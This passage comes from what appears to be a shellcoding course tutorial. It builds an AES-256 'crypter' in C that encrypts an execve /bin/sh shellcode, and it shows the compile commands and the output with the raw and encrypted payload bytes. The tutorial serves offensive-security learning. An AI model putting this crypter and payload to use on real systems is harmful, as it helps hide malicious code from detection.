```c

main(int argc, char* argv[])
{
	while(strlen(argv[1]) != 32){
		printf("Make the key 32 bytes");
		return 0;
	}
	char *encryptKey = argv[1];
	uint32_t sc_len = sizeof(sc)-1;

	printf("Orig Shellcode:\n");
	for(int i = 0; i < sc_len; i++)
	{
		printf("\\x%02X", sc[i]);

	}
	printf("\n\n");

	encrypt(encryptKey, sc_len);
	
	uint32_t enc_sc_len = sc_len + (16 - (sc_len % 16));

	printf("Encrypted Shellcode:\n");

	for(int i = 0; i < enc_sc_len; i++)
	{
		printf("\\x%02X", sc[i]);

	}	
	printf("\n");

	return 0;
}
```
Let's compile it and run it.. We need to include the aes implementation in our compile process so that our calls don't just blindly call something that doesn't exist yet.
```
gcc -c -o aes.o aes.c
gcc aes_256_crypter.c aes.o aes.h -o aes_256_crypter
aes_256_crypter.c:30:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
 main(int argc, char* argv[])
 ^
```
Let's run it with a key as input to make sure it works..
```
./aes_256_crypter securitytube-key-012345678901234
Orig Shellcode:
\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x50\x89\xE2\x53\x89\xE1\xB0\x0B\xCD\x80

Encrypted Shellcode:
\xAF\x5B\x25\x46\x1C\xE4\x84\x94\xFC\x0F\x32\xDF\x9C\x31\x5D\x2D\xDA\xEF\x55\xC9\x8F\x56\x1F\xC1\x9C\x0C\x3B\x3A\x21\x0D\x61\xD3
```
Now that we have working encryption, it is time to create the program that decrypts the shellcode and passes execution to the unencrypted shellcode.
